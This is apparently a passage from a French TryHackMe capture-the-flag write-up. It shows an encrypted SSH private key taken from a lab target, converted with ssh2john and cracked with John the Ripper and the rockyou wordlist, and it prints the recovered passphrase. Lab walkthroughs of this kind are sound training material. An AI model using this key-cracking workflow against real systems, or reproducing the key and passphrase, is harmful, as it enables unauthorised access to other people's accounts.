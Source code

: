 ```html
<script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.0-beta3/dist/js/bootstrap.bundle.min.js" integrity="sha384-JEW9xMcG8R+pH31jmWH6WWP0WintQrMb4s7ZOdauHnUtxwoG2vI5DkLtS3qm9Ekf" crossorigin="anonymous"></script>
</body>
</html>
```

On copie la clef dans un fichier.  

```bash
tim@kali:~/Bureau/tryhackme$ cat id_key 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----

tim@kali:~/Bureau/tryhackme$ chmod 600 id_key 

tim@kali:~/Bureau/tryhackme$ /usr/share/john/ssh2john.py id_key > hash

tim@kali:~/Bureau/tryhackme$ john hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
urieljames       (id_key)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:02 DONE (2021-08-16 14:44) 0.3367g/s 4828Kp/s 4828Kc/s 4828KC/sa6_123..*7¡Vamos!
Session completed
```

